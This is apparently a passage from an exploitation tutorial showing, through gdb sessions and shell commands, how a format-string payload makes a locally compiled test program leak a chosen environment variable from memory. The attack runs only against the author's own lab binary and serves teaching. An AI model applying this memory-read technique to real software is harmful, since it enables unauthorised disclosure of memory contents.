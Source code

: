 We need to figure out where our environment variable is located:

~~~ shell
vagrant@vagrant:~/scratch$ env -i PWD=$(pwd) SOME_VAR=foobar gdb -q --args /home/vagrant/scratch/a.out $(python -c 'print "DDDD" + "%p.."*3 + "%s"')
Reading symbols from /home/vagrant/scratch/a.out...done.
(gdb) show env
PWD=/home/vagrant/scratch
SOME_VAR=foobar
LINES=29
COLUMNS=211
~~~

Despite `env -i`, `gdb` still added stuff! Okay let's add that to our environment too.

~~~ shell
vagrant@vagrant:~/scratch$ env -i PWD=$(pwd) SOME_VAR=foobar LINES=29 COLUMNS=211 gdb -q --args /home/vagrant/scratch/a.out $(python -c 'print "DDDD" + "%p.."*3 + "%s"')
Reading symbols from /home/vagrant/scratch/a.out...done.
(gdb) show env
PWD=/home/vagrant/scratch
SOME_VAR=foobar
LINES=29
COLUMNS=211
(gdb) break main
Breakpoint 1 at 0x80484b1: file printf_c.c, line 8.
(gdb) r
Starting program: /home/vagrant/scratch/a.out DDDD%p..%p..%p..%s

Breakpoint 1, main (argc=2, argv=0xffffde84) at printf_c.c:8
8         strcpy(buffer, argv[1]);
(gdb) x/4s *environ
0xffffdf9d:     "SOME_VAR=foobar"
0xffffdfad:     "COLUMNS=211"
0xffffdfb9:     "PWD=/home/vagrant/scratch"
0xffffdfd3:     "LINES=29"
(gdb) p/x 0xffffdf9d+9
$1 = 0xffffdfa6
~~~

Again `gdb` makes things a little more difficult - the order of the variables differs from the one we specified. It just means we need to call our binary with the vars in that order - and `SOME_VAR` will be located at `0xffffdf9d` + 9 bytes (one for each character of `SOME_VAR=`). We're now ready to run this:

~~~ shell
vagrant@vagrant:~/scratch$ env -i SOME_VAR=foobar COLUMNS=211 LINES=29 PWD=/home/vagrant/scratch /home/vagrant/scratch/a.out $(python -c 'print "\xa6\xdf\xff\xff" + "%p.."*3 + "%s"')
▒▒0xffffdf8a..0xf7ffd000..0xf7fefec9..foobar
~~~

Success!

The astute reader would have pointed out this would have been *much* simpler using `getenv` but I was hell bent on getting this to work with `gdb`. Heh.

